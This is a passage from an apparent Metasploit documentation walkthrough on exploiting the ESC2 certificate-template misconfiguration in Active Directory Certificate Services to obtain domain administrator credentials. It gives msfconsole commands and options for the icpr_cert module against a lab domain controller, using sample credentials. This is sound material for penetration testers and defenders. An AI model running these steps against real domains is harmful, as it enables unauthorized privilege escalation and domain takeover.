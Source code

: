 We now have a TGT at `/home/gwillcox/.msf4/loot/20221216142717_default_172.30.239.85_mit.kerberos.cca_057480.bin` that can be used to authenticate to the `daforest.com` domain as the `Administrator` domain administrator user.
The user that we have gotten the certificate as can be confirmed by the `client` field in the `loot` command's output, and we can confirm the domain as well by looking at the `realm` field in the same output.

# Exploiting ESC2 To Gain Domain Adminstrator Privileges
From the previous enumeration efforts we know that the following certificate templates are vulnerable to ESC2:
- SubCA - Not exploitable as you have to be a Domain Admin or Enterprise Admin to enroll in this certificate
- ESC2-Template - Enrollable by any authenticated user that is part of the Domain Users group, aka any authenticated domain user.

We will use ESC2-Template to gain a TGT as the domain administrator user.

To do this we will use the `ipcr_cert` module and we will set the usual options, however we will need to run it twice. This is because with ESC2, we can't use the vulnerability to request authentication certificates as other users without the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag being set on the template. Instead what we can do is use the Any Purpose EKU or SubCA EKU that are set on these certificates to authenticate to the domain as the user who requested the certificate. So what we do is first get a ESC2 vulnerable certificate, then abuse the ability to use that certificate for any purpose to then request a certificate on behalf of another user, using that certificate as the form of authentication for this operation.

For the first run, we will set the usual `RHOSTS`, `CA`, and `CERT_TEMPLATE` details, being sure to set `CERT_TEMPLATE` to the vulnerable `ESC2-Template` certificate template, and supply valid SMB login credentials. This will grant us a certificate for our current user that is based off of the vulnerable `ESC2-Template`:

```
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC2-Template
CERT_TEMPLATE => ESC2-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normaluser
SMBPass => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normal
SMBUser => normal
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting              Required  Description
   ----           ---------------              --------  -----------
   ALT_DNS                                     no        Alternative certificate DNS
   ALT_UPN                                     no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA  yes       The target certificate authority
   CERT_TEMPLATE  ESC2-Template                yes       The certificate template
   ON_BEHALF_OF                                no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                                         no        Certificate to request on behalf of
   RHOSTS         172.30.239.85                yes       The target host(s), see https://github.com/rapid7/metas
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT          445                          yes       The target port (TCP)
```